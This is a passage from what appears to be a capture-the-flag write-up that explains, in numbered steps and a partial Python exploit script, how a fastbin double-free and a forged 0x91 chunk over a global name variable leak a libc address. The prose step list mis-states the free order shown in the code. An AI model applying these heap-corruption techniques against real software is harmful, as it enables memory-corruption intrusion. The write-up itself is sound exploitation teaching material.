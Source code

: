The way I got the libc leak was to do the following steps:

1. At the beginning of the program, make our name look like a fake chunk of 0x61 size.

1. Allocate three chunks of size 0x58.

2. Double free one of them (`free(0)` -> `free(1)` -> `free(1)`).

3. Reallocate a chunk of size 0x58, then set its first 8 bytes (the fd pointer) to our name variable.

4. Three more allocations later, and we get a chunk right on top of our name variable

5. Now we reintroduce ourselves again and make the chunk header a size of 0x91 and create a bunch of fake chunks

6. Free the chunk, and it places the address of `main_arena + 0x58` into the `fd` and `bk` fields of our "fake" chunk

7. Leak it by reintroducing ourselves and typing in enough characters

```python
'''
For step 1, we want a libc leak. PIE is disabled, and the only leak we have is when we
"reintroduce" ourselves, and the program tells us what our name is.

Knowing this, the easiest way to get a libc leak is to first get a fake chunk on top of
the name variable by doing a fastbin attack. Then, we simply change the name to make it
appear to be a chunk of size 0x91, then free it. This causes the addr of main_arena+0x58
to be placed in the fd and bk fields of our fake chunk. The fd and bk fields are
essentially name[2] and name[3] respectively, if each index is considered 8 bytes long
'''

# Initialize our name to look like a fake chunk header with size 0x61
initialize(p64(0) + p64(0x61) + p64(0))

# Address of name global variable (PIE is disabled)
fake_chunk = 0x602040

# Quick double free fast bin attack to get a chunk on top of name
# Allocate three chunks for setup (third chunk might not be needed)
add(0x58, 'A'*0x58) # 0
add(0x58, 'B'*0x58) # 1
add(0x58, 'C'*0x58) # 2

# Double free chunk 0
free(0)
free(1)
free(0)

# Get chunk 0 back, and overwrite it's FD with fake chunk
add(0x58, p64(fake_chunk) + 'A'*0x50) # 3

# Three more allocations, chunk 6 will be at our name variable
add(0x58, 'B'*0x58) # 4
add(0x58, 'A'*0x58) # 5
add(0x58, 'C'*0x58) # 6

# Next, we change name so that it looks like a fake chunk with size 0x91
# We also construct a bunch of fake chunks.
# Only two fake chunks are required, I just made a bunch of them cuz I was lazy
# The two fake chunks allow us to free this 0x91 sized chunk and bypass security checks
reintroduce(p64(0) + p64(0x91) + p64(0x21)*23)

# Free fake chunk, places the address of main_arena+0x58 into its fd and bk fields
free(6)

# We overwrite the chunk header with 'AAAAAAA\n'
```